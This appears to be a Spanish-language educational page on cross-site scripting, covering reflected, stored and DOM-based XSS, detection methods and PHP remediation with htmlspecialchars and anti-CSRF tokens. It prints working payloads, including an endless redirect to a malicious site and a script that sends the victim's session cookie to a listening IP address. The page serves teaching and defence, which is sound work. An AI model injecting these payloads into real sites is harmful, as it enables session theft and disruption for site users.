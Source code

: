 
# XSS

(Cross-Site Scripting)

## ¿Que es el XSS?

Cross-site scripting (también conocido como XSS) es una vulnerabilidad común de la seguridad web que permite a un atacante inyectar código malicioso en una página web.

## ¿Cómo funciona XSS?

---

El Cross-site scripting funcionan mediante la manipulación de un sitio web vulnerable para que devuelva JavaScript malicioso a los usuarios. Cuando el código malicioso se ejecuta dentro del navegador de la víctima, el atacante puede comprometer completamente su interacción con la aplicación.

![Untitled](/img/xss/xss%2089c3ffeba57145dc9cb6b57f51484e0e/Untitled.png)

## ****¿Cuáles son los tipos de ataques XSS?****

### XSS Reflected

---

tipo de vulnerabilidad web que ocurre cuando un atacante inyecta código malicioso en una página web que luego es reflejado de vuelta al usuario a través de un error de validación en la entrada de datos. Esto significa que el código malicioso se ejecuta en el navegador del usuario en lugar de en el servidor web.

Aqui podemos ver un ejemplo de XSS que con un alert nos saque la cookie de sesión

```bash
<script>
    alert(document.cookie);
</script>
```

### XSS Stored

---

Es un tipo de vulnerabilidad web que permite a un atacante inyectar código malicioso en una página web que luego se almacena en una base de datos o en el almacenamiento local del navegador del usuario. Este tipo de vulnerabilidad es más peligroso que el XSS Reflected, ya que el código malicioso se ejecuta en todos los navegadores que acceden a la página web y no solo en el navegador del usuario que realizó la acción.

este en si lo que se encarga es de hacer una continua redirección a un sitio malicioso y llegando a afectar a la disponibilidad.

```bash
<script>
    while (true) {
        window.location = "http://mi-sitio-malicioso.com/";
    }
</script>
```

Este ataque por XSS lo que se encarga es de enviar la cookie de sesión a la ip 192.168.1.135 que tendremos un puerto abierto en modo de escucha.

```bash
<script>new Image().src="http://192.168.1.135/bogus.php?output="+document.cookie;</script>
```

### XSS DOM

---

El XSS (Cross-Site Scripting) basado en el DOM (Document Object Model) es un tipo de ataque XSS que aprovecha las vulnerabilidades en la forma en que el navegador web procesa y renderiza el código HTML y JavaScript. En este tipo de ataque, el código malicioso se inyecta en una página web a través de una entrada de usuario no validada, como un formulario de entrada de datos, y luego se ejecuta en el navegador de la víctima cuando se carga la página.

```bash
<script>
var mensaje = document.createElement('h2');
mensaje.innerHTML = '¡Hola desde un ataque XSS basado en el DOM!';
document.body.appendChild(mensaje);
</script>
```

![Untitled](/img/xss/xss%2089c3ffeba57145dc9cb6b57f51484e0e/Untitled%201.png)

## Formas de detectar vulnerabilidades XSS

Existen multitud de formas para detectar vulnerabilidades XSS en una aplicación web como por ejemplo.

Escaneo automático: existen herramientas de escaneo automático de vulnerabilidades que pueden ayudar a detectar vulnerabilidades XSS. Estas herramientas realizan pruebas automatizadas de inyección de código en los formularios y campos de entrada de la aplicación, y pueden informar sobre las vulnerabilidades detectadas.

Análisis de código fuente: otra forma de detectar vulnerabilidades XSS es mediante el análisis del código fuente de la aplicación. Algunas herramientas de análisis estático de código pueden identificar patrones y fragmentos de código que son propensos a vulnerabilidades XSS.

Pruebas de penetración: las pruebas de penetración son un enfoque más exhaustivo para detectar vulnerabilidades XSS. Los expertos en seguridad pueden realizar pruebas de penetración para simular ataques XSS reales en la aplicación y determinar su nivel de riesgo.

etc.

Es importante recordar que la detección de vulnerabilidades XSS es solo una parte de un programa de seguridad completo. También es importante tomar medidas para remediar las vulnerabilidades detectadas y establecer políticas y procedimientos de seguridad adecuados para prevenir futuros ataques XSS.

## formas de securizar estos errores.

---

## XSS Reflected

Aqui tenemos una forma de securizar un XSS reflected

![Untitled](/img/xss/xss%2089c3ffeba57145dc9cb6b57f51484e0e/Untitled%202.png)

Primero, se verifica si existe un token Anti-CSRF y se comprueba si el token del usuario coincide con el token de sesión almacenado. Esto ayuda a prevenir ataques CSRF (Cross-Site Request Forgery) que intentan engañar al usuario para que realice acciones no deseadas en su sitio web.

Luego, el valor del parámetro “name” es almacenado en una variable llamada “$name” y se utiliza la función “htmlspecialchars” para escapar cualquier carácter especial y evitar posibles vulnerabilidades XSS (Cross-Site Scripting) que podrían ser explotadas por atacantes.

Finalmente, se muestra un mensaje en pantalla que contiene el valor del parámetro “name” para el usuario.

También hay una función llamada “generateSessionToken” que se encarga de generar un token Anti-CSRF único para la sesión actual del usuario.

## XSS stored

![Untitled](/img/xss/xss%2089c3ffeba57145dc9cb6b57f51484e0e/Untitled%203.png)

Este código PHP procesa un formulario de entrada que contiene un mensaje y un nombre de usuario. Si se envía el formulario (el botón “btnSign” es presionado), el código realiza lo siguiente:

Verifica si hay un token Anti-CSRF y comprueba si el token del usuario coincide con el token de sesión almacenado para prevenir ataques CSRF. Recupera el valor de los campos de entrada del formulario, “mtxMessage” y “txtName”. Sanitiza los valores ingresados por el usuario para evitar posibles vulnerabilidades XSS y SQL injection. Para esto, se eliminan las barras invertidas adicionales en el valor del campo y se escapan los caracteres especiales utilizando la función htmlspecialchars. Además, se utiliza la función mysqli_real_escape_string para escapar cualquier carácter especial en la entrada del usuario. Inserta el mensaje y el nombre de usuario en la base de datos utilizando una consulta preparada.
